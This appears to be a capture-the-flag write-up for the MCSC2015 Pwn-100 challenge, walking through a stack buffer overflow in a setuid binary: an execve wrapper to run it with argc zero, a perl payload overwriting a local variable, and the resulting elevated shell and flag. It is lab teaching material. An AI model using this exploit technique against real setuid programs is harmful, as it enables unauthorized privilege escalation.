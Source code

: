 #MCSC2015 writeup for Pwn-100<br>


pwn0@MCSC2015:/challenges/pwn0$ ls -l<br>
total 16<br>
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0<br>
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG<br>
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c<br>
pwn0@MCSC2015:/challenges/pwn0$ cat /proc/sys/kernel/randomize_va_space <br>
2<br>
<br>
ASLR is on !!<br>
gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o 0.c<br>
after a quick view in pwn0.c, here's an interesting function<br>
<br>
void vuln()<br>
{<br>
	unsigned int reg;<br>
	char buffer[BUFF_SIZE];<br>
	fgets(buffer , BUFF_SIZE+5 , stdin);<br>
	if(reg == 78954)<br>
	{<br>
		printf("You Win\n");<br>
		system("/bin/dash");<br>
	}<br>
}<br>
<br>
However, this function is executed if and only if argc is equal to zero.<br>
In that case, execve can be handy ...<br>
<br>
<br>
Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.<br>
Step 2 : overwrite the variable reg with 78954<br>
if(reg == 78954)<br>
{<br>
	printf("You Win\n");<br>
	system("/bin/dash");<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
Step1 : run a program with argc=0<br>
What's special about the family exec call system ?<br>
execve allows you to specify the command-line arguments (including the program name).<br>
a normal call to execve for example would be :<br>
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....<br>
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.<br>
<br>
with that said, let's start exploiting .....<br>
First, we write a small program <br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
\#include \<stdio.h><br>
\#include \<stdlib.h><br>
int main()<br>
{<br>
	execve("/challenges/pwn0/0",NULL,NULL);<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing<br>
pwn0@MCSC2015:/tmp$ cd /tmp/testing/<br>
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c<br>
\#include \<stdio.h><br>
\#include \<stdlib.h><br>
int main()<br>
{<br>
	execve("/challenges/pwn0/0",NULL,NULL);<br>
}<br>
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper<br>
pwn0@MCSC2015:/tmp/testing$ ./wrapper <br>
Good Boy<br>
test<br>
pwn0@MCSC2015:/tmp/testing$<br>
<br>
we are finally able to execute the vuln() function, let's try to exploit it:<br>
The buffer size is 64, 78954 to hexadecimal is 0x1346A<br>
===========================<br>
A successful exploitation would be like this:<br>
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input<br>
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper <br>
Good Boy<br>
You Win<br>
id<br>      
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)<br>
cat FLAG<br>
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}<br>
<br>
